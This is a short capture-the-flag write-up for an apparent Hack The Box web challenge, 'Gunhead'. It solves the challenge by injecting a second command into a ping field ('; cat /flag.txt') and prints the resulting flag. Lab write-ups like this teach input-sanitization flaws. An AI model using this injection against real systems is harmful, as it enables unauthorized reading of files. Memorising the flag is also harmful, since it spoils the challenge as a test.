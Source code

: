 # Gunhead

During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

## Writeup

Go to the website and on the top right corner there is a terminal icon with **command** label, click on it.

Now launch this command to get the flag:

```bash
/ping 127.0.0.1; cat /flag.txt
```

The flag is:

```
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```